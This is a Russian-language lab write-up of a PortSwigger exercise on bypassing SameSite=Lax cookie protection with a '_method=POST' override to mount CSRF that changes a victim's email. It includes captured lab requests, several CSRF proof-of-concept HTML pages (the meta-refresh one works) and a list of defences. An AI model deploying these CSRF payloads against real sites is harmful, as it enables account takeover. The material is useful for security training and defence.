

SameSite - это механизм безопасности браузера, который определяет, когда файлы cookie веб-сайта включаются в запросы, исходяющие с других веб-сайтов. Ограничения файлов cookie SameSite обеспечивают частичную защиту от различных межсайтовых атак, включая CSRF, межсайтовые утечки и некоторые эксплойты CORS

это атрибут куки который говорит браузеру когда отправлять куку на другие сайты

**Strict** (строгий)— не отправлять ни при каких кросс-сайт запросах  

**Lax**  (вялый епта)— отправлять только при GET и только при top-level навигации (переход по ссылке)  

**None**  (нет)— отправлять всегда (требует Secure + HTTPS)

Если файл cookie установлен с атрибутом `SameSite=None`, это фактически полностью отключает ограничения SameSite, независимо от браузера. В результате браузеры будут отправлять этот файл cookie во всех запросах на сайт, который его выдал, даже в тех, которые были инициированы совершенно несвязанными сторонними сайтами.

За исключением Chrome, это поведение по умолчанию, используемое основными браузерами, если при установке файла cookie не предоставляется атрибут `SameSite`

примерчик:
`Set-Cookie: trackingId=0F8tgdOhi9ynR1M9wa3ODa; SameSite=None; Secure`

--------


лаба  https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-lax-bypass-via-method-override
#### Обход ограничений SameSite Lax с помощью запросов GET ( с помощью переопределения метода)

задание
выполните CSRF-атаку, которая изменит адрес электронной почты жертвы через эксплойт сервер лабы

----

вот он запрос на смену емейл

```http
POST /my-account/change-email HTTP/2
Host: 0ae600c0040e537e80d6628200dd00a4.web-security-academy.net
Cookie: session=Adna0IPqB744q7tlCjCxc9HXO5tzNQPw
Content-Length: 20
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Origin: https://0ae600c0040e537e80d6628200dd00a4.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ae600c0040e537e80d6628200dd00a4.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

email=hacker%40bk.ru
```


-------

я нигде не вижу среди заголовков SameSite, это можнт означать - что по умолчанию там подставляетcя SameSite=lax

lax - значит - что только гет запросы работают, те через ссылки

поэтому пробую подставлять гет

попробовал так - но ошибка 405 "Method Not Allowed"

```http
GET /my-account/change-email?email=hacker%40bk.ru HTTP/2
Host: 0ae600c0040e537e80d6628200dd00a4.web-security-academy.net
Cookie: session=Adna0IPqB744q7tlCjCxc9HXO5tzNQPw
...
...
```


-----

видимо для гет - не работает , но я могу УКАЗАТЬ В ГЕТ ЗАПРОСЕ - МЕТОД ПОСТ 

добавляю &method=post

```http
GET /my-account/change-email?email=hacker%40bk.ru&_method=POST HTTP/2
Host: 0ae600c0040e537e80d6628200dd00a4.web-security-academy.net
Cookie: session=Adna0IPqB744q7tlCjCxc9HXO5tzNQPw
Content-Length: 0
```
и вуаля - емейл сменился!




-----

далее все просто
идем сюды 🍺 https://csrf-poc-generator.vercel.app

получаем 

```html
<html>
  <body>
    <form action="https://0ae600c0040e537e80d6628200dd00a4.web-security-academy.net/my-account/change-email?email=hacker222@bk.ru&_method=POST" method="GET">
    </form>
    <script>
      document.forms[0].submit()
    </script>
  </body>
</html>

```


проверяю на себе - ответ 405 "Method Not Allowed"
возможно, из-за того, как браузер обрабатывает навигацию

------

пробую

```html
<html>
  <body>
    <a href="https://0ae600c0040e537e80d6628200dd00a4.web-security-academy.net/my-account/change-email?email=hacker222@bk.ru&_method=POST">Click me</a>
  </body>
</html>

```

не сработало так как требует требует клика жертвы, и  для автоматической атаки не подходит

----

пробую

```html
<html>
  <body>
    <iframe src="https://0ae600c0040e537e80d6628200dd00a4.web-security-academy.net/my-account/change-email?email=hacker222%40bk.ru&_method=POST" style="display:none"></iframe>
  </body>
</html>

```

не сработало (SameSite Lax блокирует куки в iframe)

 `<iframe src="...">` - не работает при `SameSite=Lax`, так как загрузка в iframe не является top-level навигацией, кука не отправляется

------

пробую

```html
<html>
  <head>
    <meta http-equiv="refresh" content="0; url=https://0ae600c0040e537e80d6628200dd00a4.web-security-academy.net/my-account/change-email?email=hacker222%40bk.ru&_method=POST">
  </head>
</html>
```

СРАБОТАЛО!!!! 🏆 мета редирект сработал!

видимо - сервер установил куку `session` без атрибута `sameSite`, поэтому браузер автоматически применил значение `lax` (по умолчанию в моем chrome)


-----

## ПОЧЕМУ ВЗЛОМ ПОЛУЧИЛСЯ

сервер установил куку `session` без атрибута `SameSite`, поэтому браузер автоматически применил значение **`Lax`** (по умолчанию в chrome)

`Lax` разрешает отправку куки только при **GET-запросах** и **top-level навигации** (переход по ссылке, редирект)

но сам эндпоинт смены email отвечал на POST, а на  GET возвращал 405

сервер поддерживал method override через параметр `_method=POST` в GET-запросе, чем я и воспользовался

это позволило обойти ограничение: сделать GET с параметром `method=POST`, браузер отправил куку (так как это top-level GET), а сервер обработал запрос - как POST и сменил email, 


в офиц  решении лабу решили через - **`document.location`** — должен работать тоже

`<meta refresh>` - сработал, потому что это тоже top-level навигация, браузер отправляет куку, и сервер обрабатывает `method=POST`


## КАК ЗАЩИТИТЬСЯ ОТ ТАКИХ АТАК - ИСПОЛЬЗОВАТЬ CSRF ТОКЕН ДЛЯ НАЧАЛА!

###  ЯВНО УКАЗЫВАТЬ SAME SITE

не полагаться на умолчания браузера. для кук, критичных для безопасности, устанавливать **`SameSite=Strict`**

###  НЕ ИСПОЛЬЗОВАТЬ METHOD OVERRIDE ДЛЯ ЧУВСТВИТЕЛЬНЫХ ДЕЙСТВИЙ

если нужен method override - разрешать его только для безопасных методов и требовать валидный csrf-токен

###  ПРОВЕРЯТЬ МЕТОД ЗАПРОСА

сервер должен строго проверять, что запрос к чувствительному эндпоинту (смена email, пароля) пришёл именно ожидаемым методом (POST), и не полагаться на параметры типа `_method`

